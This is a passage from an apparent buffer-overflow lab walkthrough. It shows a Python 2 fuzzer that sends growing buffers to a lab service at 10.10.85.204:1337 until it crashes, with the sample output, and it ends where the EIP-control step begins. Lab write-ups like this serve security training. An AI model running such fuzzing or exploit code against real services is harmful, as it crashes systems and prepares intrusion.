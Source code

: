 ### Spawn the process from `Immunity Debugger`

**Remember to `run as Administrator`!**

```bash
File -> Open
Debug -> Run
```

## Fuzzing 

`fuzzer.py`:  
```python
#!/usr/bin/python2

import socket, time, sys

ip = "10.10.85.204"
port = 1337
timeout = 5

buffer = []
counter = 100
while len(buffer) < 30:
    buffer.append("A" * counter)
    counter += 100

for string in buffer:
    try:
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.settimeout(timeout)
        connect = s.connect((ip, port))
        s.recv(1024)
        print("Fuzzing with %s bytes" % len(string))
        s.send("OVERFLOW1 " + string + "\r\n")
        s.recv(1024)
        s.close()
    except:
        print("Could not connect to " + ip + ":" + str(port))
        sys.exit(0)
    time.sleep(1)
```

```bash
$ python2 fuzzer.py
...
Fuzzing with 1900 bytes
Fuzzing with 2000 bytes                <- Take note of the largest count 
Could not connect to 10.10.85.204:1337
```

## Crash Replication & Controlling EIP
